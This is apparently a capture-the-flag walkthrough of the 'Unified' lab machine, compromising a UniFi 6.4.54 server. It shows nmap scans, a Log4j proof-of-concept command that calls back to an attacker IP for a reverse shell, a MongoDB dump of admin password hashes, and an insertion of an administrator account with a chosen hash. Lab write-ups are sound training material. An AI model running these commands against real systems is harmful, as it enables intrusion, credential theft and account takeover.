



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Unified

## Summary


## Recon

### Port Scan

As always, let's start with a port scan. For efficiency, we will run a fast (`-T5 --min-rate 10000`) all-ports (`-p-`) scan first to find out which of them are open (`-open`), and then we will do a version scanning (`-sV`) as well as use Nmap's default scripts (`-sC`) against open ports only.


```bash
# Scanning all ports at maximum speed
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -open -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 17:37 BST
Nmap scan report for 10.129.158.126
Host is up (0.038s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
8843/tcp open  unknown
8880/tcp open  cddbp-alt

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds
# Version-scanning the specified ports at max speed plus using default scripts
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -p 22,6789,8080,8443,8843,8880 -sC -sV
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
<SNIP>
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.158.126:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
<SNIP>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
<SNIP>
8880/tcp open  cddbp-alt?
```


Based on Nmap's output, we can note some things down:

* There is an SSH port open (`22`) which might represent the way to access the box.
* There is an HTTP port (`8080`) which redirects to `https://10.129.158.126:8443/manage` which seems interesting.
* The port `6789` it seems to be used for an application called [UniFi Mobile Speed Test](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).
* The last port (`8880`) is related with a protocol called [CDDB](https://linux.die.net/man/3/cddb) and it's also related with the [UniFi Network](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).

### Web Server Enumeration

By visiting the redirected URL we found above, we land on the UniFi login page, which seems to also have its version: `6.4.54` (Figure 1).

<figure><figcaption><p>Figure 1: The UniFi login page along with its version.</p></figcaption></figure>

## Foothold

### Log4j

Since we know the application's version, we can check if any known vulnerability exists. Doing that, reveals the [Log4j vulnerability](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) (Figure 2.1) as well as a [GitHub repository ](https://github.com/puzzlepeaches/Log4jUnifi)with a PoC[^1] (Figure 2.2).

<figure><figcaption><p>Figure 2: Rsearching known vulnerabities for <code>UniFi 6.4.54</code>.</p></figcaption></figure>

The [SprocketSecurity article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) includes both an [exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#exploitation) and a [post-exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitation) route, but let's first try the PoC as it involves less steps. By opening a listener (Figure 3.1) and following the PoC's execution instructions (Figure 3.2), we indeed achieve RCE[^2] and secure our foothold (Figure 3.3).

```bash
# executing the PoC
sudo python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.14.147 -p 1337
```

<figure><figcaption><p>Figure 3: Establishing our initial foothold.</p></figcaption></figure>

We can first upgrade our shell (Figure 4) and then read the `user.txt` flag within the home directory of the sole user of the box.


Check more about shell upgrades [here](../../../tools/tools/shells/upgrade.md).


<figure><figcaption><p>Figure 4: Upgrading our shell with <code>script</code>.</p></figcaption></figure>

```bash
unifi@unified:/unifi/data$ ls /home
michael
unifi@unified:/unifi/data$ cat /home/michael/user.txt
6ce<REDACTED>127
```

## Privilege Escalation

### Mongodb Exploitation

The [post-exploitation part](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationcrackinghashes) of the article refers to a mongodb DBMS[^3] from which we can dump password hashes from. Let's check if we can do that (Figure 5).

```bash
# Dumping the password hashes
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><figcaption><p>Figure 5: Dumping hashes from the mongodb database.</p></figcaption></figure>

Next, according to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationshadowadmin), we can encrypt a new password (Figure 6.1) and use it to change the `administrator`'s password (Figure 6.2), so we can then use it to log in into the UniFi portal as a privileged user (Figure 7).


```bash
# Encrypting the new password
mkpasswd -m sha-512 Password123!
# Changing the administrator's password
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "administrator@unified.htb", "last_site_name" : "default", "name" : "administrator", "time_created" : NumberLong(100019800), "x_shadow" : "$6$Zpy/bK4oaMXbjkwG$gPVsT76.dDkLpzgvEZm39v2kvkqfytwFzuzOHOW5MmkgFtN9UXDbg0FZ58hckZEq2g83mE9bWNqXDi6itVvd91" })'
```


<figure><figcaption><p>Figure 6: Changing the <code>administrator</code>'s password.</p></figcaption></figure>

### UniFi Enumeration

By enumerating the UniFi portal, we can find the `root`'s plaintext password (Figure 7) which we can use right away and read the `root.txt` flag 🚩 (Figure 8).


<figure><figcaption><p>Figure 8: Reading the root flag.</p></figcaption></figure>

[^1]: Proof of Concept

[^2]: Remote Command Execution

[^3]: Database Management System
